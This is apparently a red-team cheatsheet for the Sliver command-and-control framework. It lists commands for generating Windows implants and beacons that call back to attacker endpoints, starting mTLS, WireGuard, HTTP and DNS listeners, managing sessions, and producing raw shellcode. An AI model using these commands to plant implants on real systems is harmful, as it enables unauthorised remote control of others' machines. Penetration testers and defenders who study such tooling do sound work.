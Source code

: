 # Sliver Cheatsheet

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
sliver
// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows --save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls -L <lhost> -l <lport> 
wg
https
http
dns
// Jobs to view and manage listners
jobs
jobs -k <job number>
jobs -K <kill all jobs>
// Interact with sessions
use sessionID 
```

Armory
```go
// Because why not
armory install all 
```

https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

Shell generation
```go
// Disable shikata ga nai
--formate shellcode -G
```